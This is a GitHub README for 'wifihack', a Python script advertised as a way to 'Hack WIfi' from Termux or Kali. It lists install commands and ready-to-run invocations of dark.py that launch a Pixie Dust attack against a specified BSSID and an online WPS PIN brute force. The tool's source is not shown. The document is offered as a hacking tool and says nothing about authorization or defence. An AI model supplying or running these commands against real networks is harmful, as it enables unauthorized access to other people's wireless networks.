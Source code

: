 # wifihack

Hack WIfi Using Termux! (Requires Root)
Installation :

$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/rareblack35/wifihack
$ cd wifihack
$ chmod +x dark.py
$ sudo python dark.py --help

Example : sudo python3 dark.py -i wlan0 -K
Note:

First turn off your Wifi.

Hack WIfi Using Kali!
Installation :
$ git clone https://github.com/rareblack35/wifihack
$ cd wifihack
$ chmod +x dark.py
$ sudo python3 dark.py -i wlan1 -K

$ sudo python dark.py --help

Example : sudo python3 dark.py -i wlan0 -K
Note:

    Show avaliable networks and start Pixie Dust attack on a specified network.
    sudo python3 dark.py -i wlan0 -K
        Start Pixie Dust attack on a specified BSSID: sudo python dark.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
    Launch online WPS bruteforce with the specified first half of the PIN:
    sudo python dark.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
